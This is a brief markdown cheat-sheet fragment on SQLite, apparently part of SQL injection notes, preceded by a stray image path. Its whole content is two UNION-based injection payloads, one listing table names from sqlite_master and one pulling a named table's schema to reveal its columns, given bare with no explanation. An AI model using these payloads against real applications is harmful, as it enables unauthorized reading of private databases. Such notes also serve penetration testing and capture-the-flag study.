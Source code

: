 ## SQLite

- Extract table names 

  - `1' union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  
  - `1' union select sql from sqlite_master where type='table' and name='<table_name>'--`

